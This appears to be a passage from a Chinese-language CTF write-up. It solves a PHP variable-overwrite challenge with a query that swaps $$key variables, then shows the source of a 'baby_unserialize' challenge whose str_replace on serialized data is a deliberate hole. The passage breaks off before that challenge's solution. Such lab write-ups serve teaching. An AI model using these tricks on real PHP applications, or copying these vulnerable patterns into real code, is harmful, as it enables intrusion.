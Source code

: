 ```php
foreach ($_GET as $key => $value) {
    $$key = $$value;
}

echo 'the flag is : ' . $flag;

?>
```

考察变量覆盖，本题的核心就是不能改变flag原本的值

但是在**POST**部分

```php
$$key = $value;
```

如果传入了**flag=xx**，就会变成

```php
$($key) = xx;
$key = flag
$flag = xx;
```

所以**POST**不能传flag

那么**GET**就必须要传了(强制二选一)

保持flag不变，根据上面的思路

```php
?giveme=flag&flag=giveme
1: $giveme=$flag
2: $flag=$giveme
```

先用flag覆盖giveme，再用giveme覆盖flag

得到的还是flag

### baby_unserialize

```php
<?php
session_start();
highlight_file(__FILE__);

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

$r = $_GET['r'];
$s = $_GET['s'];

if(isset($r) && isset($s) ){
    $moe = new moectf($r,$s);
    $emo = str_replace('aiyo', 'ganma', serialize($moe));
    $_SESSION['moe']=base64_encode($emo);

}
```
